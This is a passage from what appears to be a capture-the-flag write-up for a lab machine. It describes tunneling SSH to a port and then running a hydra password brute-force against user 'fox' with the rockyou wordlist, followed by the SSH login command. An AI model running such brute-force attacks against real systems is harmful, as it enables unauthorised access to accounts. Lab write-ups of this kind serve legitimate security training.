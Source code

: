 ![writeup.exploitation.steps.2.1](/static/files/posts_thm_yotf/screenshot09.png.webp)  

3\. With this, we now have tunneled `localhost:22` to `10.10.41.240:1337` and can now run a ssh password bruteforce for user `fox` on it. After a few minutes we find a hit and can now login:  
```
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.41.240:1337
ssh fox@10.10.41.240 -p1337
```

![writeup.exploitation.steps.3.1](/static/files/posts_thm_yotf/screenshot10.png.webp)  
